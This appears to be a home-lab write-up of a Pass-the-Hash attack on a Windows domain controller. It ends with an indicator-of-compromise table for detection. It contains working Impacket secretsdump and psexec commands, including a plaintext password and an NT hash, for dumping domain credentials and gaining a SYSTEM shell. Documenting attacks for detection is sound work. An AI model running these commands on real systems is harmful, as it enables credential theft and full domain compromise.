




# Attacker: Pass-the-Hash – NTLM Lateral Movement

## Environment Details

| Field | Value |
|---|---|
| **Attacker Machine** | Kali Linux |
| **Target Domain** | `sadeg.com` |
| **Target Host (DC)** | `WIN-8R2EDC1A59K` |
| **Target IP** | `192.168.30.145` |
| **Initial Access Account** | `svc_backup` |
| **Attack Timestamp** | 07:10 – 07:12 |

---

## Attack Chain Overview

```
[Kali Linux]
     │
     │  Step 1: Credential Dump via secretsdump
     ▼
[DC: 192.168.30.145] ──► NTDS.DIT hashes extracted (all domain accounts)
     │
     │  Step 2: Extract Administrator NTLM hash
     ▼
Administrator:500 → Hash: 1e30c1e9fa5a71b16dded11c24a73a4c
     │
     │  Step 3: Pass-the-Hash via psexec
     ▼
[DC: 192.168.30.145] ──► Shell as NT AUTHORITY\SYSTEM
     │
     │  Step 4: Post-exploitation enumeration
     ▼
Domain Admins confirmed: Administrator, svc_backup
```

---

## Step 1 – Credential Dumping with secretsdump (07:10)

The attacker already had valid credentials for the `svc_backup` domain account (a Domain Admin member) and used **Impacket's secretsdump** tool to remotely dump all NTLM hashes from the Domain Controller via the **DRSUAPI** (Directory Replication Service API) method, which queries the NTDS.DIT database without touching the filesystem directly.

### Command Used
```bash
impacket-secretsdump sadeg.com/svc_backup:'Winter2026!'@192.168.30.145
```


## Step 2 – NTLM Hash Extraction (07:10)

The secretsdump output returned NTLM hashes for every domain account. The attacker focused on the **Administrator** account hash:

### Dumped Credentials (selected)



> **Note:** The LM hash `aad3b435b51404eeaad3b435b51404ee` is the standard empty LM hash, meaning LM authentication is disabled. Only the NT hash is needed for Pass-the-Hash.

---

## Step 3 – Pass-the-Hash via psexec (07:11)

Using the extracted NT hash, the attacker authenticated as `Administrator` to the Domain Controller **without knowing the plaintext password** — the core of the Pass-the-Hash technique (T1550.002).

### Command Used
```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:1e30c1e9fa5a71b16dded11c24a73a4c Administrator@192.168.30.145
```

### Execution Flow




---

## Step 4 – Post-Exploitation Enumeration (07:12)

Once SYSTEM-level shell access was obtained on the Domain Controller, the attacker performed standard domain enumeration:

### Identity Verification



The attacker confirmed full control of the Domain Controller as **NT AUTHORITY\SYSTEM** — the highest privilege level on Windows.

> **Key Finding:** `svc_backup` is a **Domain Admin** — this is the account whose credentials were used in Step 1 to initiate the credential dump. This confirms the account had the necessary privileges to replicate the NTDS.DIT, making it a high-value target.

---

## Summary of IOCs (Indicators of Compromise)

| IOC | Value |
|---|---|
| **Attacker IP** | Kali Linux host (source of lateral movement) |
| **Target IP** | `192.168.30.145` |
| **Account Abused (Initial)** | `svc_backup` |
| **Account Abused (PtH)** | `Administrator` |
| **NT Hash Used** | `1e30c1e9fa5a71b16dded11c24a73a4c` |
| **Tool: Credential Dump** | `impacket-secretsdump` |
| **Tool: Lateral Movement** | `impacket-psexec` |
| **Windows Event Generated** | EventCode `4624`, Logon_Type `3`, Auth_Package `NTLM` |
| **Malicious Service Name** | `jrKV` |
| **Malicious Binary Uploaded** | `QyTJSACH.exe` to `ADMIN$` |
| **MITRE ATT&CK Technique** | T1550.002 – Use Alternate Authentication Material: Pass the Hash |
